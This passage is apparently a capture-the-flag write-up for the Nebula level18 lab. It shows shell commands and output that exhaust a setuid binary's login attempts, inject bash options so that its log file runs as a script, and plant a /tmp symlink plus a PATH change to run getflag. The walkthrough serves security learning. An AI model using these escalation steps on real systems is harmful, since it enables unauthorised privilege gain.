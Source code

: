Changing parent argument
```
level18@nebula:~$ python -c 'print "login\n"*7+"closelog\n"+"shell\n"' | /home/flag18/flag18 --version -d /tmp/log
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'e'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 's'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'o'
/home/flag18/flag18: invalid option -- 'n'
GNU bash, version 4.2.10(1)-release (i686-pc-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

**Invoking Bash**  [ [Ref](https://www.gnu.org/software/bash/manual/html_node/Invoking-Bash.html) ]  

> We don't have input but we have argument.


--init-file  filename
--rcfile  filename
Execute commands from  filename  (instead of  ~/.bashrc) in an interactive shell.

According to GNU Bash Options, We can use --rcfile or --init-file to execute Command from a file.
```
level18@nebula:~$ python -c 'print "login\n"*7+"closelog\n"+"shell\n"' | /home/flag18/flag18 --init-file -d /tmp/log
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'n'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 't'
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
/tmp/log: line 1: Starting: command not found
/tmp/log: line 2: syntax error near unexpected token `('
/tmp/log: line 2: `logged in successfully (without password file)'

```
Inside tmp/log

```
level18@nebula:~$ cat /tmp/log
Starting up. Verbose level = 0
logged in successfully (without password file)
```
**Symlink**  
I think you all know what to do next
```
level18@nebula:~$ ln -s /bin/getflag /tmp/Starting
level18@nebula:~$ ls -al /tmp
total 0
drwxrwxrwt 4 root    root    120 2020-05-19 11:41 .
drwxr-xr-x 1 root    root    220 2020-05-19 10:29 ..
drwxrwxrwt 2 root    root     40 2020-05-19 10:30 .ICE-unix
-rw-rw-r-- 1 flag18  level18   0 2020-05-19 11:38 log
lrwxrwxrwx 1 level18 level18  12 2020-05-19 11:41 Starting -> /bin/getflag
drwxrwxrwt 2 root    root     40 2020-05-19 10:30 .X11-unix
level18@nebula:~$ export PATH=/tmp:$PATH
```